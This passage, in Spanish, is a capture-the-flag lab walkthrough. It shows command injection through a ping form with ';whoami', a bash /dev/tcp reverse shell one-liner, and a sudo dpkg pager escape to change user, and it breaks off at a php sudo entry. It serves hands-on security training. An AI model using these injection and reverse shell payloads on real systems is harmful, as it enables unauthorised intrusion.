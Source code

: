 Si ponemos algo NO valido -> hola :

```bash
# Ping Test

Command 'ping -c 4 hola' returned non-zero exit status 2.

```

# EXPLOTACION

Intentamos colar un doble comando usando **;**

```bash
172.17.0.1 ;whoami
```

Efectivamente, nos devuelve freddy.

Nos ponemos en escucha por el puerto 443 y nos damos una reverse shell:

```bash
172.17.0.1;/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'
```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
freddy@061875d85d75:~$ sudo -l
Matching Defaults entries for freddy on 061875d85d75:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 061875d85d75:
    (bobby) NOPASSWD: /usr/bin/dpkg


```

Vemos **dpkg** con permisos SUDO  :

   ```bash
   sudo -u bobby dpkg -l
   !/bin/sh
```

YA ESTAMOS COMO BOBBY.

Vemos si el usuario tiene permisos SUDO:
   ```bash
bobby@061875d85d75:/home/freddy$ sudo -l
Matching Defaults entries for bobby on 061875d85d75:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User bobby may run the following commands on 061875d85d75:
    (gladys) NOPASSWD: /usr/bin/php

```
